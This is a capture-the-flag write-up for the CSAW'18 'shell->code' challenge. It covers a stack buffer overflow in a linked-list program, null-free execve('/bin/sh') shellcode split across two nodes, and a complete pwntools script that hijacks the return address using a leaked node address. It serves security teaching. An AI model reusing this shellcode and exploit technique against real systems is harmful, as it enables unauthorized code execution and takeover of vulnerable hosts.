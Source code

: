 # Introduction 
shell->code was a 100 points pwn challenge on the CSAW’18 CTF Qualification Round

# Reversing (The Problem)
The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:

![alt text](screenshots/checksec.png)

This gives us a few clues already:
1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA:


![alt text](screenshots/nononode.png)

Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says goodbye.

![alt text](screenshots/goodbye_overflow.png)

And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow. 

Testing it out wields the following result:

![alt text](screenshots/segfault.png)

Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.

![alt text](screenshots/offset.png)

The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.

![alt text](screenshots/node_off.png)
(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap: 
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes. 
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump to and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.


```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at 
offset 8 from the start of node 2 which is the leaked address, being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!

![alt text](screenshots/win.png)


